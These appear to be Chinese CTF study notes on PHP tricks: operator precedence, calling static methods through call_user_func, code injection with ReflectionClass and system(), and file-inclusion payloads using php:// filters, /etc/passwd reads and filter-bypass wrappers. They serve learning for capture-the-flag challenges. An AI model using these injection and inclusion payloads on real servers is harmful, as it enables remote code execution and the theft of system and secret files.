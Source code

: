 # 五、运算符
## and
AND运算符和&&运算符的根本区别在于它们的优先级差异，但两者都执行相同的操作。
第一个表达式，`$bool = TRUE && FALSE`; 计算结果为FALSE，因为执行了第一个&&操作，然后将结果赋值给变量`$bool`，因为&&运算符的优先级高于=的优先级。
第二个表达式，`$bool = TRUE and FALSE`; 计算结果为TRUE，因为运算符"and"的优先级低于运算符"="，因此=的右边的值TRUE被分配给`$bool`，然后"and"操作在内部执行但未分配，因此`$bool`现在保持为TRUE。

## && ||
```php
A && B || C //可不管A,B,只保证C为true
```

# 六、类
魔术方法
静态方法：不用实例化可以直接调用
调用方法：
```php
call_user_func($_POST['ctfshow']);
1.ctfshow::getFlag()
2.ctfshow[0]=ctfshow&ctfshow[1]=getFlag//过滤冒号
```

## 内置类
1.反射类
```php
eval("echo new $v1($v2());");
// v1=ReflectionClass&v2=system('cat fl36dg.txt')
//当新建ReflectionClass类并传入PHP代码时，会返回代码的运行结果，可以通过echo显示。即使传入了空的括号，代码依旧可以运行
echo new ReflectionClass('class');//返回类信息
echo new ReflectionObject($student);
echo new ReflectionFunction(getcwd);//Function [ function getcwd ] { - Parameters [0] { } }

```
2.Exception类
3.FilesystemIterator类
```php
$iterator = new FilesystemIterator('.'); // 创建当前目录的迭代器,默认只显示第一个文件,需要遍历
getcwd()//获取当前工作目录
```

# 七、文件包含
常用包含/etc/passwd来查看回显
## 伪协议
?file=php://
fuzz一下所有的伪协议
```php
include($_GET["file"]);//php://input读取post的data的内容作为文件
php://filter/read=convert.base64-encode/resource=/flag
file_put_contents($v3,$str);//$str进行base64编码
$v3=php://filter/write=convert.base64-decode/resource=1.php
若base64在黑名单，可绕过：
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

php://filter/read=convert.quoted-printable-encode/resource=flag.php
若php://在黑名单：
compress.zlib://flag.php
file:///
dict://
```